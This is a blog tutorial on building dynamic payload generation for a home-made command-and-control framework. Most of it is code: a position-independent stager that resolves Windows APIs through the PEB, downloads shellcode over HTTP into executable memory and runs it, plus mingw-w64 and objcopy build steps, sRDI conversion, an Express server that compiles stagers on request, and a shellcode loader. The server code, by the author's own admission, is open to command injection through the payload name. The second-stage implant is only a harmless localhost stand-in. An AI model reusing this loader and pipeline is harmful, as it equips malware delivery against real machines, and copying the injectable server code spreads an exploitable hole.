

# Dynamic payload generation with mingw

In my spare time I've been developing a C2 framework as a way to become more familiar with the workings of a tool that I've spent a lot of time using, but didn't fully understand. After getting my teamserver and a prototyped implant up and running, I began working on some of the more complicated features of a C2 framework. One area that I had trouble with was getting dynamic payload generation up and running, as I wasn't able to find many blogs on the subject.

Up to this point I had mostly been manually compiling my loaders with shellcode generated by a C2. But since I'm the C2 now, I had to figure out how to provide said shellcode. Since the Visual Studio toolchain isn't available on Linux without something like WINE, I turned to a cross-compiler. I decided pretty quickly to use mingw-w64 for this purpose. While I was trying to figure out how to compile a PIC with mingw, I found [this](https://www.rapid7.com/blog/post/2019/11/21/metasploit-shellcode-grows-up-encrypted-and-authenticated-c-shells/) post from the Metasploit team. The post talks about using mingw in Metasploit for that exact purpose, which pretty much solved my problem statement. At this point I think half my career is trying to figure something out and realizing either Metasploit or Cobalt Strike did it in like 2013.

Even with that resource it took me a while to get all of the moving parts working together smoothly so I figured it might make an interesting topic to blog about. So in this post we'll look at the following:

- Writing a basic "implant" that just grabs a web page from our server
- Writing a basic shellcode that will grab and load the implant from our server
- Compiling both of these with mingw-w64 and
    - Extracting the shellcode from our stager
    - Converting the implant to shellcode with sRDI
- Writing a basic server program that:
    - Lets users request a payload with a dynamic host, port, and payload name
    - Edits the payloads and does the above steps
    - Returns the stager shellcode to the user

## Stageless vs Staged

At this point I think everyone is familiar with the concept of stageless vs staged payloads but I'll briefly address them.

For a staged payload, we will need to compile two pieces. The first is a small piece of loader shellcode, which can vary in complexity. If we are optimizing for size then this shellcode will only connect to the server, download the second stage, and pass execution to it. If we want to create a stealthier shellcode at the cost of size then we could also have it decrypt the payload or perhaps resolve functions to inject our second stage into a remote process. For the purposes of this blog we'll just look at the former.

The second thing we need to compile is the second stage of the payload, where all the real functionality exists. Since the main implant will likely be performing a lot of complex tasks, it is very unlikely that we want to try and write it in so that it can be compiled to a Position Independent Code (PIC). For that reason we'll likely want to use some form of loader, the most common one that I've seen being Reflective DLL Injection. This is what Meterpreter (and Cobalt Strike, I believe) uses. We can take that one step further and use Shellcode Reflective DLL Injection, which will shoulder all of the work for us. sRDI will take a DLL or executable and convert it to a piece of shellcode that once executed will resolve all of the functions for the target DLL/exe and then pass over execution. If you're not already familiar with the inner workings of RDI and sRDI then I would really recommend taking an afternoon to dig in to it.

### Stageless payloads

For stageless payloads we only have to generate one payload and embed our entire second stage implant within. This is the choice for when we don't want to be fetching the entire second stage over the network every time the payload executes. I've had better luck with stageless payloads on more than one occasion since some EDR products don't like a program that immediately uses Wininet to download something and load it into memory.

# Writing our payloads

Before we can start compiling stuff, we'll need something to test it on. For now I'll use three components:

- A basic HTTP server that will serve our second stage payload
- A stager that will grab the second stage payload and execute it
- A second stage payload (main implant) that will just make an HTTP request to our server to indicate success

## The server

To start out for our server we can just use a Python3 one liner since we just need to serve a file and observe requested files. Later we'll write some custom server code.

```jsx
python3 -m http.server 8080
```

## The main payload

Our main payload will use the standard Wininet functions to make a request to the localhost:8080/success endpoint to verify that the code ran successfully.

```c
#include <Windows.h>
#include <WinInet.h>
#include <stdio.h>

#pragma comment(lib, "wininet.lib")

int main() {
    char user_agent[] = "user";
    HINTERNET hInternet = InternetOpenA(user_agent, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
    if (hInternet == NULL)
    {
        return 1;
    }
    char sitename[] = "localhost";
    int port = 8080;
    HINTERNET hConnect = InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
    if (hConnect == NULL) {
        return 1;
    }

    const char* acceptTypes[] = { '*','/','*', NULL };

    char method[] = "GET";
    char site_param[] = "success";
    HINTERNET hRequest = HttpOpenRequestA(hConnect, method, site_param, NULL, NULL, acceptTypes, 0, 0);
    if (hRequest == NULL) {
        return 1;
    }

    BOOL bRequestSent = HttpSendRequestA(hRequest, NULL, 0, NULL, 0);

    BOOL bKeepReading = TRUE;
    const int nBuffSize = 100000;
    int size = 0;

    char* buff = VirtualAlloc(0, 100000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    DWORD dwBytesRead = -1;

    while (bKeepReading && dwBytesRead != 0) {
        bKeepReading = InternetReadFile(hRequest, buff, nBuffSize, &dwBytesRead);
    }
    printf(buff);
		InternetCloseHandle(hRequest);
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
    return 0;
}
```

We'll use InternetOpenA to get a handle, InternetConnectA to specify the host and port, HttpOpenRequestA to connect to the host, HttpSendRequestA to make our request, and then InternetReadFile to read the response from the server. I made a hardcoded assumption here that our payload is less than 100000 bytes. In this case we know it will be less than that, and in a real project you should have a good idea what the maximum size of your final payload is.

## Mingw-64

Up until this point I had only ever used the Visual Studio toolchain to compile my payloads. However, the VS tools are only available on Windows hosts, or through an emulator like WINE (though I've never had luck with this). Pretty much every C2 that I've seen was designed to operate from a Linux host for obvious reasons. Since we need to compile C from Linux to Windows, we need to use a cross-compiler like mingw-w64. You can install mingw-w64 using apt or your other favorite package manager.

The command to compile the implant is below. We'll specify the source file, the output file, and include two flags (lwininet and lwinhttp) which tell the linker to include the wininet and winhttp libraries. The -w flag just suppresses warnings.

```cpp
x86_64-w64-mingw32-gcc-win32 ./modified_implant.c -o modified_implant.exe -lwininet -lwinhttp -w
```

After compiling we can run to verify that everything works. We get a 404 from the server as expected.




And then on the server we should see a 404 as well. In the real world this would be a communication with the teamserver.

## The stager

For the stager, we are going to do the same thing as before (fetching a web resource), but it will be written as Position Independent Code (PIC). PIC means that we cannot rely on knowing where any functions are, so we need to resolve them ourselves. We also cannot use any strings since these will not be included in the .text section of our executable, so we will write them as byte arrays to ensure that they are dynamically constructed on the stack.

I will not attempt to offer a complete tutorial on writing PIC, so I would REALLY recommend you read one of the following blog posts: Matt Graeber's ["Writing Optimized Windows Shellcode In C"](https://web.archive.org/web/20201202085848/http://www.exploit-monday.com/2013/08/writing-optimized-windows-shellcode-in-c.html) (Archived) or hasherezade's [From a C project to assembly to shellcode](https://vxug.fakedoma.in/papers/VXUG/Exclusive/FromaCprojectthroughassemblytoshellcodeHasherezade.pdf). Reading and finally understanding these two posts was one of those moments where a lot of very important concepts began to click together for me.

I've placed the source code into a dropdown to avoid making the total page length super long.

- Click here to expand the full stager code

    ```c
    #pragma once
    #include <windows.h>

    #ifndef __NTDLL_H__

    #ifndef TO_LOWERCASE
    #define TO_LOWERCASE(out, c1) (out = (c1 <= 'Z' && c1 >= 'A') ? c1 = (c1 - 'A') + 'a': c1)
    #endif

    typedef struct _UNICODE_STRING
    {
        USHORT Length;
        USHORT MaximumLength;
        PWSTR  Buffer;

    } UNICODE_STRING, * PUNICODE_STRING;

    typedef struct _PEB_LDR_DATA
    {
        ULONG Length;
        BOOLEAN Initialized;
        HANDLE SsHandle;
        LIST_ENTRY InLoadOrderModuleList;
        LIST_ENTRY InMemoryOrderModuleList;
        LIST_ENTRY InInitializationOrderModuleList;
        PVOID      EntryInProgress;

    } PEB_LDR_DATA, * PPEB_LDR_DATA;

    //here we don't want to use any functions imported form external modules
    typedef struct _LDR_DATA_TABLE_ENTRY {
        LIST_ENTRY  InLoadOrderModuleList;
        LIST_ENTRY  InMemoryOrderModuleList;
        LIST_ENTRY  InInitializationOrderModuleList;
        void* BaseAddress;
        void* EntryPoint;
        ULONG   SizeOfImage;
        UNICODE_STRING FullDllName;
        UNICODE_STRING BaseDllName;
        ULONG   Flags;
        SHORT   LoadCount;
        SHORT   TlsIndex;
        HANDLE  SectionHandle;
        ULONG   CheckSum;
        ULONG   TimeDateStamp;
    } LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;

    typedef struct _PEB
    {
        BOOLEAN InheritedAddressSpace;
        BOOLEAN ReadImageFileExecOptions;
        BOOLEAN BeingDebugged;
        BOOLEAN SpareBool;
        HANDLE Mutant;

        PVOID ImageBaseAddress;
        PPEB_LDR_DATA Ldr;

    } PEB, * PPEB;

    #endif //__NTDLL_H__

    LPVOID get_module_by_name(WCHAR* module_name)
    {
        PPEB peb = NULL;
    #if defined(_WIN64)
        peb = (PPEB)__readgsqword(0x60);
    #else
        peb = (PPEB)__readfsdword(0x30);
    #endif
        PPEB_LDR_DATA ldr = peb->Ldr;
        LIST_ENTRY list = ldr->InLoadOrderModuleList;

        PLDR_DATA_TABLE_ENTRY Flink = *((PLDR_DATA_TABLE_ENTRY*)(&list));
        PLDR_DATA_TABLE_ENTRY curr_module = Flink;

        while (curr_module != NULL && curr_module->BaseAddress != NULL) {
            if (curr_module->BaseDllName.Buffer == NULL) continue;
            WCHAR* curr_name = curr_module->BaseDllName.Buffer;

            size_t i = 0;
            for (i = 0; module_name[i] != 0 && curr_name[i] != 0; i++) {
                WCHAR c1, c2;
                TO_LOWERCASE(c1, module_name[i]);
                TO_LOWERCASE(c2, curr_name[i]);
                if (c1 != c2) break;
            }
            if (module_name[i] == 0 && curr_name[i] == 0) {
                //found
                return curr_module->BaseAddress;
            }
            // not found, try next:
            curr_module = (PLDR_DATA_TABLE_ENTRY)curr_module->InLoadOrderModuleList.Flink;
        }
        return NULL;
    }

    LPVOID get_func_by_name(LPVOID module, char* func_name)
    {
        IMAGE_DOS_HEADER* idh = (IMAGE_DOS_HEADER*)module;
        if (idh->e_magic != IMAGE_DOS_SIGNATURE) {
            return NULL;
        }
        IMAGE_NT_HEADERS* nt_headers = (IMAGE_NT_HEADERS*)((BYTE*)module + idh->e_lfanew);
        IMAGE_DATA_DIRECTORY* exportsDir = &(nt_headers->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT]);
        if (exportsDir->VirtualAddress == NULL) {
            return NULL;
        }

        DWORD expAddr = exportsDir->VirtualAddress;
        IMAGE_EXPORT_DIRECTORY* exp = (IMAGE_EXPORT_DIRECTORY*)(expAddr + (ULONG_PTR)module);
        SIZE_T namesCount = exp->NumberOfNames;

        DWORD funcsListRVA = exp->AddressOfFunctions;
        DWORD funcNamesListRVA = exp->AddressOfNames;
        DWORD namesOrdsListRVA = exp->AddressOfNameOrdinals;

        //go through names:
        for (SIZE_T i = 0; i < namesCount; i++) {
            DWORD* nameRVA = (DWORD*)(funcNamesListRVA + (BYTE*)module + i * sizeof(DWORD));
            WORD* nameIndex = (WORD*)(namesOrdsListRVA + (BYTE*)module + i * sizeof(WORD));
            DWORD* funcRVA = (DWORD*)(funcsListRVA + (BYTE*)module + (*nameIndex) * sizeof(DWORD));

            LPSTR curr_name = (LPSTR)(*nameRVA + (BYTE*)module);
            size_t k = 0;
            for (k = 0; func_name[k] != 0 && curr_name[k] != 0; k++) {
                if (func_name[k] != curr_name[k]) break;
            }
            if (func_name[k] == 0 && curr_name[k] == 0) {
                //found
                return (BYTE*)module + (*funcRVA);
            }
        }
        return NULL;
    }

    //Define some things for wininet, could use them directly but helps readability
    typedef LPVOID HINTERNET;
    #define INTERNET_OPEN_TYPE_DIRECT 1
    #define INTERNET_SERVICE_HTTP 3

    //For 64 bit shellcodes we will set this as the entrypoint
    void AlignRSP()
    {
        asm("push %rsi\n"
            "mov % rsp, % rsi\n"
            "and $0x0FFFFFFFFFFFFFFF0, % rsp\n"
            "sub $0x020, % rsp\n"
            "call ExecutePayload\n"
            "mov % rsi, % rsp\n"
            "pop % rsi\n"
            "ret\n");
    }

    //Our 32bit entrypoint, helps avoid bloat caused by mingw and main functions
    int ExecutePayload()
    {
        // Stack based strings for libraries and functions the shellcode needs
        wchar_t kernel32_dll_name[] = { 'k','e','r','n','e','l','3','2','.','d','l','l', 0 };
        char load_lib_name[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0 };
        char get_proc_name[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s', 0 };

        // resolve kernel32 image base
        LPVOID base = get_module_by_name((const LPWSTR)kernel32_dll_name);
        if (!base) {
            return 1;
        }

        // resolve loadlibraryA() address
        LPVOID load_lib = get_func_by_name((HMODULE)base, (LPSTR)load_lib_name);
        if (!load_lib) {
            return 2;
        }

        // resolve getprocaddress() address
        LPVOID get_proc = get_func_by_name((HMODULE)base, (LPSTR)get_proc_name);
        if (!get_proc) {
            return 3;
        }

        // loadlibrarya and getprocaddress function definitions
        HMODULE(WINAPI * _LoadLibraryA)(LPCSTR lpLibFileName) = (HMODULE(WINAPI*)(LPCSTR))load_lib;
        FARPROC(WINAPI * _GetProcAddress)(HMODULE hModule, LPCSTR lpProcName)
            = (FARPROC(WINAPI*)(HMODULE, LPCSTR)) get_proc;

        char wininet_dll_name[] = { 'w','i','n','i','n','e','t','.','d','l','l', 0 };
        char internetopenw_name[] = { 'I','n','t','e','r','n','e','t','O','p','e','n','A',0 };
        LPVOID wininet_dll = _LoadLibraryA(wininet_dll_name);

        HINTERNET (WINAPI * _InternetOpenA)(
            _In_opt_ LPCSTR lpszAgent,
            _In_opt_ DWORD   dwAccessType,
            _In_opt_ LPCSTR lpszProxy,
            _In_opt_ LPCSTR lpszProxyBypass,
            _In_ DWORD   dwFlags
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ LPCSTR lpszAgent,
                _In_opt_ DWORD   dwAccessType,
                _In_opt_ LPCSTR lpszProxy,
                _In_opt_ LPCSTR lpszProxyBypass,
                _In_ DWORD   dwFlags)) _GetProcAddress((HMODULE)wininet_dll, internetopenw_name);

        char internetconnecta_name[] = { 'I','n','t','e','r','n','e','t','C','o','n','n','e','c','t','A',0 };
        HINTERNET (WINAPI * _InternetConnectA)(
            _In_opt_ HINTERNET     hInternet,
            _In_opt_ LPCSTR       lpszServerName,
            _In_opt_ int nServerPort,
            _In_opt_ LPCSTR       lpszUserName,
            _In_opt_ LPCSTR       lpszPassword,
            _In_opt_ DWORD         dwService,
            _In_opt_ DWORD         dwFlags,
            _In_ DWORD_PTR     dwContext
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ HINTERNET     hInternet,
                _In_opt_ LPCSTR       lpszServerName,
                _In_opt_ int nServerPort,
                _In_opt_ LPCSTR       lpszUserName,
                _In_opt_ LPCSTR       lpszPassword,
                _In_opt_ DWORD         dwService,
                _In_opt_ DWORD         dwFlags,
                _In_ DWORD_PTR     dwContext
                )) _GetProcAddress((HMODULE)wininet_dll, internetconnecta_name);

        char httpopenrequesta_name[] = { 'H','t','t','p','O','p','e','n','R','e','q','u','e','s','t','A',0 };
        HINTERNET (WINAPI * _HttpOpenRequestA)(
            _In_opt_ HINTERNET hConnect,
            _In_opt_ LPCSTR   lpszVerb,
            _In_opt_  LPCSTR   lpszObjectName,
            _In_opt_ LPCSTR   lpszVersion,
            _In_opt_ LPCSTR   lpszReferrer,
            _In_opt_ LPCSTR * lplpszAcceptTypes,
            _In_opt_ DWORD     dwFlags,
            _In_ DWORD_PTR dwContext
            ) = (HINTERNET (WINAPI*)(
                _In_opt_ HINTERNET hConnect,
                _In_opt_ LPCSTR   lpszVerb,
                _In_opt_ LPCSTR   lpszObjectName,
                _In_opt_ LPCSTR   lpszVersion,
                _In_opt_ LPCSTR   lpszReferrer,
                _In_opt_ LPCSTR * lplpszAcceptTypes,
                _In_opt_ DWORD     dwFlags,
                _In_ DWORD_PTR dwContext
                )) _GetProcAddress((HMODULE)wininet_dll, httpopenrequesta_name);

        char httpsendrequesta_name[] = { 'H','t','t','p','S','e','n','d','R','e','q','u','e','s','t','A',0 };

        BOOL (WINAPI * _HttpSendRequestA)(
            HINTERNET hRequest,
            LPCWSTR   lpszHeaders,
            DWORD     dwHeadersLength,
            LPVOID    lpOptional,
            DWORD     dwOptionalLength
            ) = (BOOL (WINAPI*)(
                HINTERNET hRequest,
                LPCWSTR   lpszHeaders,
                DWORD     dwHeadersLength,
                LPVOID    lpOptional,
                DWORD     dwOptionalLength
                )) _GetProcAddress((HMODULE)wininet_dll, httpsendrequesta_name);

        char internetreadfile_name[] = { 'I','n','t','e','r','n','e','t','R','e','a','d','F','i','l','e', 0 };

        BOOL (WINAPI * _InternetReadFile)(
            HINTERNET hFile,
            LPVOID    lpBuffer,
            DWORD     dwNumberOfBytesToRead,
            LPDWORD   lpdwNumberOfBytesRead
            ) = (BOOL (WINAPI*)(
                HINTERNET hFile,
                LPVOID    lpBuffer,
                DWORD     dwNumberOfBytesToRead,
                LPDWORD   lpdwNumberOfBytesRead
                )) _GetProcAddress((HMODULE)wininet_dll, internetreadfile_name);

        char internetclosehandle_name[] = { 'I','n','t','e','r','n','e','t','C','l','o','s','e','H','a','n','d','l','e', 0 };
        void(WINAPI * _InternetCloseHandle)(
            HINTERNET hInternet
            ) = (void (WINAPI*)(
                HINTERNET hInternet
                )) _GetProcAddress((HMODULE)wininet_dll, internetclosehandle_name);

        char user_agent[] = { 'u','s','e','r',0 };
        HINTERNET hInternet = _InternetOpenA(user_agent, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
        if (hInternet == NULL)
        {
            return 1;
        }
        char sitename[] = { 'l','o','c','a','l','h','o','s','t',0 };
        int port = 8080;
        HINTERNET hConnect = _InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
        if (hConnect == NULL) {
            return 1;
        }

        const char* acceptTypes[] = { '*','/','*', NULL };
        char method[] = { 'G','E','T',0 };
        char site_param[] = { 's','h','e','l','l','c','o','d','e','.','b','i','n',0 };
        HINTERNET hRequest = _HttpOpenRequestA(hConnect, method, site_param, NULL, NULL, acceptTypes, 0, 0);
        if (hRequest == NULL) {
            return 1;
        }

        BOOL bRequestSent = _HttpSendRequestA(hRequest, NULL, 0, NULL, 0);

        BOOL bKeepReading = TRUE;
        const int nBuffSize = 5000000;
        int size = 0;

        char virtualalloc_name[] = { 'V','i','r','t','u','a','l','A','l','l','o','c', 0 };
        LPVOID(WINAPI * _VirtualAlloc)(
            LPVOID lpAddress,
            SIZE_T dwSize,
            DWORD  flAllocationType,
            DWORD  flProtect
            ) = (LPVOID(WINAPI*)(
                LPVOID lpAddress,
                SIZE_T dwSize,
                DWORD  flAllocationType,
                DWORD  flProtect
                )) _GetProcAddress((HMODULE)base, virtualalloc_name);

        char* buff = _VirtualAlloc(0, 10000000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        DWORD dwBytesRead = -1;

        while (bKeepReading && dwBytesRead != 0) {
            bKeepReading = _InternetReadFile(hRequest, buff, nBuffSize, &dwBytesRead);
        }
        DWORD dwOldProtect;
        char virtualprotect_name[] = { 'V','i','r','t','u','a','l','P','r','o','t','e','c','t',0 };
        BOOL(WINAPI * _VirtualProtect)(
            LPVOID lpAddress,
            SIZE_T dwSize,
            DWORD  flNewProtect,
            PDWORD lpflOldProtect
            ) = (BOOL(WINAPI*)(
                LPVOID lpAddress,
                SIZE_T dwSize,
                DWORD  flNewProtect,
                PDWORD lpflOldProtect
                )) _GetProcAddress((HMODULE)base, virtualprotect_name);

        ((void(*)())buff)();

        _InternetCloseHandle(hRequest);
        _InternetCloseHandle(hConnect);
        _InternetCloseHandle(hInternet);

        return 0;
    }
    ```

So that's a lot of code to digest. The first few functions are used to get the address of our Process Environment Block and resolve the address of kernel32.dll, which can then be used to find the addresses of LoadLibrary and GetProcAddress. Once we have those functions, we can resolve functions from any other library. We're using the same exact functions as earlier, except we have to define a prototype for the function so that we can call it. The only other difference is that all of the strings are defined as byte arrays to ensure that they are not compiled away into a different section and instead constructed dynamically on the stack as described [here](https://nickharbour.wordpress.com/2010/07/01/writing-shellcode-with-a-c-compiler/) by Nick Harbour.

## Using some weird mingw-w64 flags

The posts that I linked above already demonstrate how to compile this using the Visual Studio toolchain, but the Metasploit blog post describes how to achieve the same goal with some weird compiler flags. Our PIC can be compiled as follows.

```c
x86_64-w64-mingw32-gcc-win32 shellcode.c -nostdlib -ffunction-sections -fno-ident -fno-asynchronous-unwind-tables -w -O2 -Wl,-e,AlignRSP -o shellcode.exe
```

I'll break down the options used here:

- nostdlib - prevents mingw from including the standard library
- ffunction-sections - tells the compiler to ensure that each function is also placed into the .text section
- fno-ident/fno-asynchronous-unwind-tables - tells the compiler to leave out some extraneous sections
- w - suppresses warnings
- O2 - specifies the optimization level. The Metasploit blog that I linked indicates that this seems to be the level that works with our dynamic strings
- Wl,-e,AlignRSP - This specifies a linker directive that tells the linker to set AlignRSP as our entrypoint

However this is only for x64 payloads. For x86 payloads we need to slightly modify the command.

```c
i686-w64-mingw32-gcc-win32 shellcode.c -nostdlib -ffunction-sections -fno-ident -fno-asynchronous-unwind-tables -w -O2 -Wl,-e,ExecutePayload -o shellcode.exe
```

The only differences here is that we'll call the compiler targeting the i686 architecture instead of x86_64, and we'll set the entrypoint to ExecutePayload instead of AlignRSP. This is because for x86 payloads we do not need to align the stack before executing.

For the sake of simplicity we'll just work with x64 payloads for the remainder of the post, but in a real application we'd want to do both. It should be as simple as adding a switch for the architecture.

After compiling the payload and executing it, we should see a request to /shellcode.bin on our server.


I find it helpful to execute the compiled payload just to ensure that it works, but since we wrote a shellcode we don't need the whole executable! We can just pull out the .text section, which is our shellcode. There's many ways to do this, but the simplest in my opinion is to use objcopy.

```c
objcopy -O binary --only-section=.text shellcode.exe shellcode.bin
```

So probably the easiest way to verify that our shellcode is working here is to ensure that our HTTP server is running in the same directly as shellcode.bin, and then run our shellcode executable. If everything works then you should see one request to /shellcode.bin, followed by another, and another, until you exit the program. This means that the initial program successfully loaded the shellcode, which then executed and loaded the shellcode again, and it'll just keep going.


## Executing the second stage

As I mentioned earlier, we do not want to write our entire implant in a PIC fashion. This is very cumbersome and not sustainable. To remedy that, we'll use sRDI to convert our executable into shellcode. I've linked the repo below.

[monoxgas/sRDI](https://github.com/monoxgas/srdi)


There is a quirk with sRDI where it is fully capable of converting a PE, but it will only generate a .bin file if the target is a DLL. If it is an exe then it will replace the exe with the shellcode file. This can be fixed as follows.

```c
output_bin = input_dll.replace('.dll', '.bin')
```

to

```c
output_bin = input_dll.replace('.exe', '.bin')
```

Or you can duplicate the line so that it will check for both .dll and .exe. Or you can compile the implant to a DLL and specify the -shared flag to mingw. Either way, we should now have our compiled implant converted to shellcode. Once we verify that this works, we can go ahead and run our initial loader again. We should expect to see a request for /shellcode.bin immediately followed by a request to /success. This means that our full implant has successfully been fetched and executed.


And in the tab that we ran our shellcode in we should see the output from the full implant.


You may notice that I ran the shellcode.exe executable instead of injecting it. I just find this easier for testing purposes since we already validated that running objcopy will pull out a functional shellcode.

Note: You could also just use sRDI to convert your stager into shellcode as well, but I liked the idea of writing and compiling my own.

The last thing we'll do is replace a few lines in both the stager and the implant with placeholder variables. This will make our lives easier when we want to replace them with dynamic values.

In our stager:

```c
char sitename[] = { '%SITENAME%', 0 };
    int port = %PORT%;
    HINTERNET hConnect = _InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
    if (hConnect == NULL) {
        return 1;
    }
    const char* acceptTypes[] = { '*','/','*', NULL };
    char method[] = { 'G','E','T',0 };
    char site_param[] = { '%SITEPARAM%',0 };
```

And our implant:

```c
char sitename[] = "%SITENAME%";
    int port = %PORT%;
    HINTERNET hConnect = InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
    if (hConnect == NULL) {
        return 1;
    }
    const char* acceptTypes[] = { '*','/','*', NULL };
    char method[] = "GET";
    char site_param[] = "%SITEPARAM%";
```

## Next steps

So far we've done the following:

- Implemented a basic implant stand-in that will connect to /success
- Converted our implant to shellcode with sRDI
- Compiled a PIC stager with mingw-w64 and extracted the shellcode from the .text section

This is all great, but so far all of our information has been hardcoded and payloads are static. Now let's take a look at writing a basic server that will take a host, port, and endpoint, and dynamically generate a stager + full payload. I'm going to write this in Node+Express, but you can do this in whatever language. Python's Flask library would be a great alternative.

First we'll import all of our libraries

```c
//Our HTTP server library
const express = require('express')
//Used for reading files
const fs = require('fs')
var app = express();

const util = require('util')
//Lets us start child processes asynchronously
const exec = util.promisify(require('child_process').exec);
```

Then we'll define one endpoint to allow fetching payloads, and another to alert us when our success endpoint is requested.

```c
app.get('/payloads/:payloadname', async function (req, res){
  console.log(`Payload requested: ${req.params.payloadname}`)
  fs.readFile(`./payloads/${req.params.payloadname}`, null, function(err, data){
    res.send(data)
  })
})

app.get('/success', async function (req, res){
  console.log('Success!')
  res.sendStatus(200)
})
```

Next let's define an endpoint where we can request a stager from. We will allow the user to specify the host, port, and payload name in the URL.

```c
app.get('/stager/:host/:port/:payloadname', async function (req, res){
  fs.readFile('./stager.c', 'utf8', function(err, data) {
    let buff = new Buffer(data, 'utf8')
    buff = buff.toString()
    buff = buff.replace("%SITENAME%", req.params.host.split("").join("','"))
    buff = buff.replace("%PORT%", req.params.port)
    var payloadSplit = "payloads/" + req.params.payloadname
    buff = buff.replace("%SITEPARAM%", payloadSplit.split("").join("','"))
    fs.writeFile('./modified_stager.c', buff, (err) => {
    })
  })

  var {stdout, stderr} = await exec(`x86_64-w64-mingw32-gcc-win32 ./modified_stager.c -nostdlib -ffunction-sections -fno-ident -fno-asynchronous-unwind-tables -w -O2 -Wl,-e,AlignRSP -o ./compiled_stager.exe && objcopy -O binary --only-section=.text ./compiled_stager.exe ./shellcode.bin`)

  fs.readFile('./implant.c', 'utf8', function(err, data){
    let buff = new Buffer(data, 'utf8')
    buff = buff.toString()
    buff = buff.replace("%SITENAME%", req.params.host)
    buff = buff.replace("%PORT%", req.params.port)
    buff = buff.replace("%SITEPARAM%", "success")
    fs.writeFile('./modified_implant.c', buff, (err) => {
    })
  })

  var {stdout, stderr} = await exec(`x86_64-w64-mingw32-gcc-win32 ./modified_implant.c -o modified_implant.exe -lwininet -lwinhttp -w && python3 srdi/Python/ConvertToShellcode.py modified_implant.exe && mv modified_implant.bin ./payloads/${req.params.payloadname}`)

  fs.readFile("./shellcode.bin", null, function(err, data){
    res.send(data)
  })
})
```

First, we will read our stager file and replace some placeholder variables. We'll need to use some weird string manipulation here, since we need to turn **EXAMPLE** into **E','X','A','M','P','L','E** to conform with our dynamic string format. After we replace our strings, then we'll run our mingw-w64 command to compile it and objcopy to grab the .text section. We're eventually going to return this to the client but first we'll compile the accompanying implant.

To compile our implant we're going to do essentially the same thing as above. For the sake of simplicity we'll just use the same host and port as our stager but this could easily be changed. Then we'll compile the executable, use sRDI to generate our shellcode, and then move it to the desired payload name. Then finally we can send the shellcode to the user.

You may have also noticed that this piece of code is almost certainly vulnerable to command injection when compiling the implant via the payload name parameter, and you would be correct. In a real application we would be sanitizing all of our inputs and only accepting alphanumerics plus a period for the extension, but I don't want to bloat these snippets more than necessary for a demo.

Finally we'll tell the server to listen on some ports.

```c
app.listen(8080, () => {})
app.listen(1234, () => {})

console.log("Server is listening")
```

We can start the server with **node index.js**.

Then we can request a payload from the server to verify that it works.

```c
curl localhost:8080/stager/localhost/1234/testing.bin
```

Right now, this will return a binary file containing the shellcode. If we want to format this shellcode then we can do so with some Python.

```python
import sys
shellcodeFile = open(sys.argv[1], "rb")
shellcode = b''
for line in shellcodeFile:
        shellcode += line
cTemplate = """
unsigned char shellcode[] = "%SHELLCODE%";
"""

if(sys.argv[2] == "c"):
    outputFile = open(sys.argv[1].replace('.bin', '.' + sys.argv[2]), "w")
    outputFile.write(cTemplate.replace("%SHELLCODE%", ''.join(['\\x'+hex(c)[2:] for c in shellcode])))
```

If we run this then we'll get a file containing a shellcode array that we can paste into a simple shellcode loader.


Below is a simple loader.

```c
int main(){
	unsigned char shellcode[] = "";
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	return 0;
}
```

Finally we can run our loader and verify that it works.


And it looks like we can successfully generate a stager and payload with a dynamic host, port, and name from a Linux host!

## Going even further

This is just the tip of the iceberg when it comes to dynamic payload generation. In my toy C2 framework I let users define custom configurations which will generate a payload after being saved. Then when they generate a stager for that configuration it will be embedded with the payload's unique ID which it will request from the teamserver. I find that generating the main payload takes long enough that it's best done ahead of time, but since stagers are small pieces of code they can be compiled and returned to the user on the fly. I may blog on this in the future as I think it's an interesting topic, but this post is already fairly long.

All of that is to say that depending on your use case, you may want to expand on these generation capabilities. This may include:

- Multiple hosts for round robin beaconing
- Configuration settings like a sleep timer
- Multiple (>2) stages
- Generating payloads in multiple formats (Shellcode, exe, DLL, Office macro, etc.)

## Conclusion

As I said at the top of this post, none of this information is new or earth-shattering. These techniques have been used by tools like Msfvenom for a while now. But after messing with it for a while myself, I have much more appreciation whenever I hit "Generate" on a C2 framework.

### References

[Writing Optimized Windows Shellcode In C - Matt Graeber](https://web.archive.org/web/20201202085848/http://www.exploit-monday.com/2013/08/writing-optimized-windows-shellcode-in-c.html)

[From a C project, through assembly, to shellcode - Hasherezade](https://vxug.fakedoma.in/papers/VXUG/Exclusive/FromaCprojectthroughassemblytoshellcodeHasherezade.pdf)

[Metasploit Shellcode Grows Up - Rapid7](https://www.rapid7.com/blog/post/2019/11/21/metasploit-shellcode-grows-up-encrypted-and-authenticated-c-shells/)

[Shellcode Reflective DLL Injection - Nick Landers](https://github.com/monoxgas/sRDI)

[Writing and Compiling Shellcode in C - @spotheplanet](https://www.ired.team/offensive-security/code-injection-process-injection/writing-and-compiling-shellcode-in-c)

